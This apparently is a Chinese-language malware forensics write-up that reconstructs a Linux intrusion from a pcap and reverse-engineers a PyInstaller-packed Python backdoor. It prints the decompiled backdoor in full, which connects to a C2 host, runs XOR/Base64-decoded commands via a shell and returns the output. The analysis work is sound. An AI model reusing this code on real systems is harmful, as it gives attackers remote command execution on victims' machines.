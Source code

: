 ```yaml
---
title: '恶意软件流量分析：基于 Python 的后门与 XOR-Base64 C2 通信'
description: '详细分析使用 XOR 加密和 Base64 编码执行命令的 Python 编译恶意软件，包括网络流量剖析和有效载荷逆向工程'
date: 2025-02-27
tags: ['Malware-Analysis', 'Reverse-engineering', 'Network-forensics', 'Python-security', 'xor-encryption', 'base64-encoding','threat-hunting', 'C2-communication']
image: './assets/image-20250227160346860.png'
authors: ['0xd00']
---
```


## 初始信息

捕获网络流量包文件`.pcap`一份，包含异常通信行为

## 流量分析

![导入pcap文件](./assets/image-20250227144525368.png)

## 流量过滤

可以看到若干`ssh`流量，`ssh`的传输都是加密的所以先给过滤掉

发现可疑请求路径`/base64_client`

![发现特殊路径](./assets/image-20250227150835278.png)

### 异常HTTP会话
```http
GET /base64_client HTTP/1.1
User-Agent: Wget/1.20.3 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.0.2.64
Connection: Keep-Alive

HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.11.4
Date: Fri, 27 Oct 2023 03:06:00 GMT
Content-type: application/octet-stream
Content-Length: 16181879
Last-Modified: Fri, 27 Oct 2023 03:05:03 GMT
```

查看请求头和响应头可以看到是通过`Wget`从python的`SimpleHTTP`下载文件，这就非常像是攻击者的常用手法

### 文件提取

导出`HTTP`对象进行分析

![导出HTTP对象](./assets/image-20250227151245629.png)


## 逆向工程

### 文件预处理

![查看追踪数据流](./assets/image-20250227151956920.png)

因为格式看起来可能是`base64`编码，所以尝试进行解

```bash
cat base64_client | base64 -d > client
binwalk client
```

![解码并判断文件类型](./assets/image-20250227152159783.png)

可以确定，这是一个`linux`环境下的`x86`架构可执行文件

```bash
objdump -x client
```

![通过objdump获取更多信息](./assets/image-20250227153006517.png)

`pydata`段通常保存`pyc`，由此可以判断此程序通过python编写，可能通过`pyinstaller`打包

尝试运行也可以证明

![尝试运行](./assets/image-20250227153305684.png)

### pyinstaller逆向


```bash
python pyinstxtractor.py ./client
```

![使用pyinstxtractor反编译](./assets/image-20250227153728901.png)

使用`https://github.com/extremecoders-re/pyinstxtractor.git`来提取`pyc`文件

### 核心代码逆向

接下来尝试使用`uncompyle6`来进行反编译

```bash
uncompyle6 -o client_extracted client_extracted/client.pyc
```

```python
import socket, base64, subprocess, sys
HOST = "10.0.2.64"
PORT = 1337

def xor_crypt(data, key):
    key_length = len(key)
    encrypted_data = []
    for i, byte in enumerate(data):
        encrypted_byte = byte ^ key[i % key_length]
        encrypted_data.append(encrypted_byte)
    else:
        return bytes(encrypted_data)


with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    while True:
        received_data = s.recv(4096).decode("utf-8")
        encoded_image, encoded_command = received_data.split("AAAAAAAAAA")
        key = "MySup3rXoRKeYForCommandandControl".encode("utf-8")
        decrypted_command = xor_crypt(base64.b64decode(encoded_command.encode("utf-8")), key)
        decrypted_command = decrypted_command.decode("utf-8")
        result = subprocess.check_output(decrypted_command, shell=True).decode("utf-8")
        encrypted_result = xor_crypt(result.encode("utf-8"), key)
        encrypted_result_base64 = base64.b64encode(encrypted_result).decode("utf-8")
        separator = "AAAAAAAAAA"
        send = encoded_image + separator + encrypted_result_base64
        s.sendall(send.encode("utf-8"))
```

到这里已经知道了攻击者的流量加密方式：(xor+base编码)、端口(1337)、执行的命令混淆在图片的base64编码重，使用AAAAAAAAAA分割

![在数据流中查找分割字符串](./assets/image-20250227155757779.png)

## 攻击链重置

在`wireshark`中过滤`1337`端口，判断攻击者执行的命令

尝试解码全部请求数据，可以看到攻击者用于隐藏操作命令的图片

![CyberChef解码数据1](./assets/image-20250227160244152.png)

![CyberChef解码数据2](./assets/image-20250227160319723.png)

![CyberChef解码数据3](./assets/image-20250227160346860.png)

### 编写解密代码

```python
import re
import base64

file_path = 'data.txt'
xor_key = "MySup3rXoRKeYForCommandandControl"

def xor_decrypt(data, key):
    return ''.join(chr(b ^ ord(key[i % len(key)])) for i, b in enumerate(data))

with open(file_path) as file:
    content = file.read()
    matches = re.findall(r"AAAAAAAAAA(.*?)iVBORw", content)

    for match in matches:
        try:
            decoded_command = base64.b64decode(match)
            print("Decrypted Command:", xor_decrypt(decoded_command, xor_key))
        except Exception as e:
            print("Error decoding command:", e)
```
### 确认攻击者操作序列
![查看解密出的命令](./assets/image-20250227162330454.png)


攻击者首先确认了当前用户的身份与权限

浏览历史命令获取更多信息

通过历史命令获取了明文数据库密码

添加了一个具有root权限的用户

制作具有SUID的后门`/usr/bin/passswd`并检查文件权限

使用`md5sum`校验哈希值是否相等

通过定时任务实现其他目标

## 技术指标

| 指标类型   | 具体内容                          |
| ---------- | --------------------------------- |
| C2服务器   | 10.0.2.64:1337                    |
| 加密算法   | XOR + Base64                      |
| 密钥       | MySup3rXoRKeYForCommandandControl |
| 持久化方式 | SUID后门账户、定时任务            |
